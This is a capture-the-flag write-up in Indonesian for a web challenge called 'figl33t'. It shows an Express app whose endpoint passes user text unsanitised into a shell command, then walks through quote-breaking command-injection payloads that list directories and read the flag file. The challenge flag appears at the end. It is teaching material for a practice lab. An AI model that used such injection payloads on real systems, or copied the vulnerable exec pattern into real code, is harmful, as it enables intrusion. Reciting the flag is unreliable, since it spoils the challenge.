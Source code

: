 # figl33t
>My friend really likes ascii art. So I created this website for her.
http://103.167.136.89:10056/

1. Buka website dengan alamat yang diberikan
2. Tampilan website akan seperti ini :

![gambar](https://github.com/Valcar-ies/Writeup-CTF-Foresty-Hacker-Class/assets/84186470/8c8c013c-7d42-4c40-97be-e3e73f5d1d12)

3. Diberikan sebuah code berupa app.js
```js
const express = require('express');
const bodyParser = require('body-parser');
const exec = require('child_process').exec;
const app = express();

app.use(express.static('public'));
app.use(bodyParser.json());

app.get('/', (req, res) => {
    res.sendFile(`${__dirname}/public/index.html`);
    }
);

app.post('/figlet', (req, res) => {
    let cmd = 'timeout 1 figlet \'' + req.body.text + '\'';
    exec(cmd, (err, stdout, stderr) => {
        if (err) {
            console.log(stderr);
            res.send('Error');
        } else {
            res.send(stdout);
        }
    });
});

app.listen(3000, () => {
    console.log('figl33t listening on port 3000!');
});
```

4. Untuk melakukan bypass, dapat dibaca dari source code. dengan menggunakan tanda ' sebelum ; dan setelah syntax yang ingin digunakan selesai.
5. Kita coba lakukan command injection (dapat dilihat pada source code yaitu command exec yg menjadi patokan untuk command injection, sedangkan untuk SSTI vulnerability digunakan command eval)
6. Input syntax '; ls'

![gambar](https://github.com/Valcar-ies/Writeup-CTF-Foresty-Hacker-Class/assets/84186470/d641829f-d85d-4a94-9505-ee9f5d84fd61)

didapatkan hasil seperti yang di atas.

7. Lalu gunakan syntax ini '; cd .. && ls' untuk melihat ke directory sebelumnya

![gambar](https://github.com/Valcar-ies/Writeup-CTF-Foresty-Hacker-Class/assets/84186470/044997ad-07d7-4791-b9e8-7c3bbe555e4a)

8. Dapat dilihat pada gambar terdapat file
```console
flag-3eb436c4-1dd2-4e01-b1f9-af7c2af01481.txt
```
9. Lalu gunakan command cat untuk melihat isi file
```
'; cd .. && ls && cat flag-3eb436c4-1dd2-4e01-b1f9-af7c2af01481.txt'
```
10. Maka didapatkan 

![gambar](https://github.com/Valcar-ies/Writeup-CTF-Foresty-Hacker-Class/assets/84186470/4c592b23-289a-437e-8db6-f6db180e9ca7)

Flag yang didapat :
```console
ForestyHC{w0w_u_can_hack_figl33t_7d7c1b}
```
